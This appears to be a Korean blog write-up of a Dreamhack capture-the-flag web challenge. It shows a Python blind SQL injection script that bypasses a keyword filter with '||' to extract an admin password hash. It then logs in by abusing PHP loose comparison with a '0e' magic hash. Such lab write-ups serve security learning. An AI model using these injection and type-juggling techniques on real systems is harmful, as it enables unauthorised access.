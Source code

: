 일단 id 부분이 `mysqli_real_escape_string`로 sqli를 방지하고 있고, pw는 아예 id에 대한 유저 정보를 다 들고와서 입력값을 해시처리한 값과 비교하는 방식입니다.  
보면 get으로 no를 받아서 해당하는 유저의 id를 출력해주는 부분이 있습니다. 여기다 `no=0`을 넣어보니 
![](https://kyuyeop.github.io/assets/img/post/40/4.png)
admin이 나옵니다.  
  
보아하니 admin의 pw를 알아야 할것 같습니다. 해시화 되어 있는것 같으니 일단 해시를 찾고 레인보우 테이블을 이용하든 해야겠습니다.
  
no에서 `custom_firewall`을 통과할 수 있다면 sqli가 가능하고 반환이 id만 있으므로 이를 이용해 blind sqli를 해봐야 겠습니다.
```php
if (hash('haval128,5',$_POST['pw'],false) == mysqli_real_escape_string($connect, $userinfo['pw'])) {
```
위 코드를 보면 패스워드를 이용할때 `haval128,5` 해쉬를 사용하고 있는 것을 알 수 있습니다. 이 해시는 길이가 32입니다. 따라서 길이를 구하는 부분은 생략해도 되겠군요.  

`custom_firewall`는 테스트해보니 `or`나 `and`연산자는 막고 있으나, `||`나 `&&`은 막고 있지 않았습니다. `'`나 공백도 사용가능했고 `pw` 같은 키워드도 가능했습니다.
```python
import requests

host = 'http://host3.dreamhack.games:17577/index.php'

pw = ''
for _ in range(32):
    for i in range(48, 122):
        q = f"?no=-1||pw like concat('{pw}',char({i},37))"
        if 'admin' in requests.get(host + q).text:
            pw += chr(i)
            print(pw)
            break
```
그래서 위와 같은 코드를 사용했습니다. `like`를 이용해 뒷부분을 `%`로 처리하면서 앞에서 부터 한글자씩 넣어보고 응답에 `admin`이 포함되면 추가하는 방식입니다.  
  
이를 통해 해시를 찾으면 `0e094737743220655841445846663343`라는 값이 나옵니다.  
  
근데 이 해시, 레인보우 테이블에도 없는 해시입니다. 대신 해시 구조가 좀 특이합니다.  
  
맞습니다. `~e~~~`의 형태, 바로 숫자(float)입니다. `0e094737743220655841445846663343`은 float으로 `0.0`입니다.  
  
마침 또 패스워드 비교를 ==을 이용해 얕은 비교를 진행하고 있습니다. php는 등호 연산에서 int - float - string 순으로 비교합니다.  

따라서 해시 결과값이 0이 되는 매직해시를 사용할 수 있습니다. 매직해시는 [여기](https://github.com/spaze/hashes/blob/master/haval128%2C5.md)서 확인할 수 있습니다.  
  
그중에 하나를 골라서 넣어주면
![](https://kyuyeop.github.io/assets/img/post/40/5.png)
이렇게 flag가 나옵니다.
{% endraw %}